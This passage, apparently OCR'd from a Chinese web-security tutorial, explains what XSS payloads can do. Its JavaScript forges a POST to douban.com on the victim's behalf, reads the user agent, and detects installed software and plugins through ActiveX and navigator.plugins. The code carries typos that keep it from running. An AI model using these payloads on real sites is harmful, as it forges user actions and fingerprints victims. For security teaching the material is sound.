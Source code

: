 ```javascript
f.submit();
// 如果表单的参数很多的话可以通过直接构造 DOM 节点的方式
```

第二种方法是，通过 `XMLHttpRequest` 发送一个 POST 请求：

```javascript
var url = "http://www.douban.com";
var postStr = "ck=JiUY&mb_text=testtesttest";

var ajax = null
if (windows.XMLHttpRequest) {
    ajax = new XMLHttpRequest();
} else if (windows.ActiveXObject) {
    ajax = new ActiveXObject("Microsoft.XMLHTTP");
} else {
    console.log("You broswer doesn't support XMLHttpRequest.");
    return;
}

ajax.open("POST", url, true);
ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajax.send(postStr);

ajax.onreadystatechange = function(){
    if(ajax.readyState == 4 && ajax.status == 200) alert("Done!");
}
```

### 识别用户浏览器

最直接的方式是通过 XSS 读取浏览器的 `UserAgent` 对象：

```javascript
alert(natigator.userAgent);
```

但是浏览器有许多扩展可以更改这个值，或者可以自定义浏览器发送的 `UserAgent`，所以通过 `JavaScript` 取出来的这个浏览器对象，信息不一定准确。

但对于攻击者来说，还有另一种技巧，可以准确地识别用户的浏览器版本。由于浏览器置键的实现存在差异，不同的浏览器会各自实现一些独特的功能，所以通过分辨写这些浏览器之间的差异，就能准确地判断出浏览器版本，而几乎不会误报。

### 识别用户安装的软件

在 IE 浏览器中，可以通过判断 ActiveX 控件的 classid 是否存在，来推测用户是否安装了软件：

```javascript
try {
    var Obj = new ActivetXObject("XunLeiBHO.ThunderIDHelper");
} catch (e) {
    alert("用户未安装迅雷");
}
```

浏览器的扩展和插件也能被扫描出来。比如 FireFox 的插件列表存放在一个 DOM 对象中，通过查询 DOM 可以遍历出所有的插件。这个 DOM 对象可以通过 `navigator.plugins` 访问，因此通过这个方式就可以找到所有的插件。
